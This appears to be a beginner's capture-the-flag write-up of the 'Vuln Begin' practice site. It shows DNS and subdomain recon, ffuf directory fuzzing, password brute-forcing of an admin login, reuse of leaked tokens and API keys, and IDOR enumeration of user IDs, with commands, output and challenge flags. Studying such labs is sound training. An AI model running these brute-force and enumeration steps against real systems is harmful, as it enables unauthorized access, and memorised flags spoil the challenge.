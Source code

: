 # Vuln Begin

- Just discovered this challenges on twitter and decided to jump on it.
Plan to get better at real word bug hunting and pentesting.
- Most of the tools i'm using here i've never used and this is my first time doing all this.


### DNS Recon

- Using `dnsrecon` for the first time. This will query the dns server for any public records.
```
dnsrecon -n 8.8.8.8 -d vulnbegin.co.uk

[-] DNSSEC is not configured for vulnbegin.co.uk                                                                    [18/181]
[*]      SOA dns1.stabletransit.com 69.20.95.4                                                                              
[*]      NS dns2.stabletransit.com 65.61.188.4                                                                              
[*]      NS dns1.stabletransit.com 69.20.95.4                                                                               
[-] Could not Resolve MX Records for vulnbegin.co.uk                                                                        
[*]      TXT vulnbegin.co.uk [^FLAG^BED649C4DB2DF265BD29419C13D82117^FLAG^]                                                 
[*] Enumerating SRV Records                                                                                                 
[-] No SRV Records Found for vulnbegin.co.uk                                                                                
[+] 0 Records Found
```

- Sublist3r will query with OSINT to discover domain names and other stuff, some of which may be private and meant for the public.
```
sublist3r -d vulnbegin.co.uk

[-] Total Unique Subdomains Found: 3
www.vulnbegin.co.uk
server.vulnbegin.co.uk
v64hss83.vulnbegin.co.uk
```

- This next one is performing a brute force attack on the domain names and is trying to use the wordlist to try to out the obscure domain names.
```
 dnsrecon -d vulnbegin.co.uk -D /root/wordlists/namelist.txt -t brt 

[*]      A server.vulnbegin.co.uk 67.207.71.104
[*]      A www.vulnbegin.co.uk 67.207.71.104

```


### Content Discovery

- Using ffuf to discover some of the other uris on the website. so we can check them out.
```
ffuf -w /path/to/wordlists/wordlist.txt -u htp://www.website.com/FUZZ

cpadmin                 [Status: 302, Size: 0, Words: 1, Lines: 1]
css                     [Status: 301, Size: 194, Words: 7, Lines: 8]
js                      [Status: 301, Size: 194, Words: 7, Lines: 8]
robots.txt              [Status: 200, Size: 41, Words: 3, Lines: 2]
```

- The error handling on the website is not very good. They tell you which particular part of your login details in incorrectly entered. We found a username that works, now lets try to use a brute force attack to crack the password. Using the new found love ffuf
```
 ffuf -w ~/wordlists/10-million-password-list-top-100.txt -X POST -d "username=admin&password=FUZZ" -H "Content-Type: application/x-www-form-urlencoded" -u http://www.vulnbegin.co.uk/cpadmin/login -mc all 
```
`-mc`: Match all http status codes `all` matches everything.
this will return all `status 200` results whether they were successful logins or not.

```
ffuf -w ../wordlists/10-million-password-list-top-100.txt -X POST -d "usrname=admin&password=FUZZ" -H "Content-Type: application/x-www-form-urlencoded" -u http://www.vulnbegin.co.uk/cpadmin/login -mc all -fc 200

```
`-fc`: Filter out status codes, in this case filter out all 200 status codes so we can see the successful logins.

- Logged into the admin account found a flag and bunch of things about apis and a token cookie. We are going to do some content-discovery with this token and see what we can find.
```
ffuf -w ../wordlists/common.txt -b "token: 2eff535bd75e77b62c70ba1e4dcb2873"  -u http://vulnbegin.co.uk/cpadmin/FUZZ
```
i found one route on from the admin account that gave me a flag and `X-Token`. Lemme do some quick googling, find out what that is all about.
```
{"api_key":"X-Token: 492E64385D3779BC5F040E2B19D67742","flag":"[^FLAG^F6A691584431F9F2C29A3A2DE85A2210^FLAG^]"}
```
Ohh its an api-key, also x-token is used for authorization or authenticating users.

- I send a get request with the `x-token` in the headers to the website. And lookout for what i'll see. Since its an api key, i'll be sending the request to the subdomain with that says server. 
```
curl -H "x-token: blah blah blah" http://server.website.co.uk 

{"messaged":"User Authenticated","flag":"[^FLAG^0BDC60CC5E283476E7107C814C18DCCF^FLAG^]"}
```

- I feel like fuzzing this motherfucker to see what it has to offer.
```
ffuf -w ../wordlist/common.txt -H "X-Token: 492E64385D3779BC5F040E2B19D67742" -u http://server.vulnbegin.co.uk/FUZZ -mc all 
```
- I curled the server.vulnbegin on the user route and found a user
```
curl -H "X-Token: 492E64385D3779BC5F040E2B19D67742" http://server.vulnbegin.co.uk/user


{"id":27,"flag":"[^FLAG^7B3A24F3368E71842ED7053CF1E51BB0^FLAG^]","endpoint":"\/user\/27"}
```
I found one new endpoint. `/user`, i curled it and found a flag and also found a `static idor`(just read about this) vulnerability.
I could create a list listing over 10,000 numbers them use it to fuzz the route and look for users i can access.
```
for i in {1..10000};do echo $i >> ../wordlists/1-10000.txt ;done # create a loop of all the possible numbers to create a wordlist.
# i'll use this wordlist to fuzz the possible users i can access and then try accessing them

ffuf -w ../wordlists/1-10000.txt -H "X-Token: 492E64385D3779BC5F040E2B19D67742" -u http://server.vulnbegin.co.uk/user/FUZZ -mc all -fc 404

#results:
5                       [Status: 403, Size: 48, Words: 9, Lines: 1]
27                      [Status: 200, Size: 70, Words: 1, Lines: 1]

```

- I tried curling the first one and from the http status code you'll know there will be some auth/permission issues. Also i already got access to the first one and got a flag, so i did not see the need to do that again.
But doing it again revealed another damning path on the user side. I tried and it on the `5` user and it didnt request any auth, gave me a flag too.